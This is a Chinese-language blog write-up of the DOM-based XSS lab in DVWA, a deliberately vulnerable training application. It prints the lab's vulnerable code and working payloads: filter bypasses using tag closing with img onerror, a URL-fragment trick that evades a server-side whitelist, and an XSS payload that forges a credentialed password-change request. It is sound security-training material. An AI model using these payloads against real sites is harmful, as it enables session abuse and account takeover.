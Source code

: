 ```yaml
---
title: DVWA上手记录-DOM型XSS
slug: get-start-dvwa-09
date: 2022-04-28 15:17:00
categories:
- security
tags:
- security
- dvwa
- xss
---
```


## 前言

终于做到了XSS题。先尝试把DOM型XSS做完。

## 原理

用JavaScript操作dom的时候没对用户数据做好过滤，导致将用户数据当HTML/JS解释执行。

## 解题

### Low难度：收集信息

![image-20220428135841918](image-20220428135841918.png)

![image-20220428135846382](image-20220428135846382.png)

![image-20220428140052002](image-20220428140052002.png)

所有值得关注的东西就是这些。

目标是获取用户的 Cookie。这里就尝试发起一个 CSRF攻击。

### Low难度：解题

两个写入DOM的地方，一个是 `+ lang +`，一个是 `decodeURI(lang)`。`decodeURI`更好操作一些，尝试注入一个合法标签，直接写`<script>alert(1);</script>`。

![image-20220428142334193](image-20220428142334193.png)

注入成功。

### Medium难度：解题

惊了，看起来js没变化。

```js
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

尝试用Low难度的payload，发现被跳转：

![image-20220428142754536](image-20220428142754536.png)

大概是做了过滤，虽然有网上随便找的一堆 xss payload 但不想无脑试过去。看一眼源码。

```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

一个很鸡的过滤，`stripos`忽略大小写所以大小写 bypass 不行，一次 URI 编码也不行。考虑不用 `script` 标签，直接把 `option`和`select` 标签闭合了，然后插一个别的标签比如`img`。

payload就改成这样。

```html
</option></select><img src="" onerror=alert(1)>
```

![image-20220428144330839](image-20220428144330839-16511282123961.png)

也暴力解开了。

### High难度：解题

还是直接试一次刚才的payload，果不其然302了。看看代码。

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

白名单？这我有点不懂了。想一想先。

想 bypass 显然不能等进入 `switch`，只能在 `if` 这里就直接过，所以问题就是`array_key_exists`和`is_null`这两个函数能不能 bypass 。

没什么用的分析略，行不通。

不过还是有办法，可以用 URL 里的 Fragment。（url里的`#fragment`部分）。因为JS代码里是这么写的：

```js
var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
```

直接从`href`里取`substring`，偏移值是`href.indexOf`获得，并没有考虑是从 QueryString 还是 Fragment 取值。所以完全可以把原先的payload加上一个`#`解决问题。

![image-20220428145238725](image-20220428145238725.png)

好吧，我承认看了下帮助，差点钻了php的牛角尖，去硬找方法 bypass 服务端的检查。

### CSRF：解题

主要是解决 Cookies 默认 `samesite: lax` 导致的 xhr 行不通的问题。

把 payload 改成下面这样。

```html
</option></select><img src="" onerror="let xhr = new XMLHttpRequest(); xhr.open('get', 'http://localhost:8080/vulnerabilities/csrf/?password_new=xss&password_conf=xss&Change=Change'); xhr.withCredentials=true; xhr.send();">
```

![image-20220428150236560](image-20220428150236560.png)

![image-20220428150255678](image-20220428150255678.png)

然后验证下修改的密码`xss`是否有效。

![image-20220428150319091](image-20220428150319091.png)

相应的，提高到 Medium 和 High 难度其实也没有难度了。

Medium难度的 CSRF 只检查了 Host，XSS 方式发起的 CSRF 攻击无法通过检查同源和`Host`来解决。但严格检查 `Referer` 的话还是有可能发现的。

High 难度的 CSRF 添加了 `csrf_token`，但是 XSS 方式发起攻击完全可以 xhr 请求到表单页面的 HTML，也就可以拿到 token，`csrf_token` 无法防御。

## 总结

这个 XSS 题花样还是有点少，我还是挺期待能把大佬玩出花的 XSS payload 都学一学在什么场景玩，什么原因研发出来的。

将来有机会应该会找找有没有比较好玩的 XSS 靶场练练手。